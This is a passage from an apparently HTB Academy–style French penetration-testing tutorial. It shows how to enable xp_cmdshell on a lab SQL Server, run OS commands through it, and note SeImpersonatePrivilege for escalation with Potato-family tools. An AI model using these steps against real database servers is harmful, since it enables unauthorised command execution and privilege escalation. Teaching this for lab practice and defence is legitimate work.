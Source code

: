 Une fois connectés, nous pourrions taper `help`pour voir quelles commandes sont disponibles.

#### Affichage de nos options avec accès au serveur SQL

  Accès privilégié

```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd

```

On pourrait alors choisir `enable_xp_cmdshell`d'activer la [procédure stockée xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) qui permet d'exécuter des commandes du système d'exploitation via la base de données si le compte en question dispose des droits d'accès appropriés.

#### Choisir activate_xp_cmdshell

  Accès privilégié

```
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

```

Enfin, nous pouvons exécuter des commandes au format `xp_cmdshell <command>`. Ici, nous pouvons énumérer les droits dont dispose notre utilisateur sur le système et voir que nous disposons de [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) , qui peut être exploité en combinaison avec un outil tel que [JuicyPotato](https://github.com/ohpe/juicy-potato) , [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) ou [RoguePotato](https://github.com/antonioCoco/RoguePotato) pour passer au `SYSTEM`niveau de privilèges, en fonction de l'hôte cible, et utiliser cet accès pour continuer vers notre objectif. Ces méthodes sont couvertes dans `SeImpersonate and SeAssignPrimaryToken`le module [Windows Privilege Escalation](https://academy.hackthebox.com/course/preview/windows-privilege-escalation) . Essayez-les sur cette cible si vous souhaitez vous entraîner davantage !

#### Énumération de nos droits sur le système à l'aide de xp_cmdshell

  Accès privilégié

```
xp_cmdshell whoami /priv
output

--------------------------------------------------------------------------------

NULL

PRIVILEGES INFORMATION

----------------------

NULL

```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession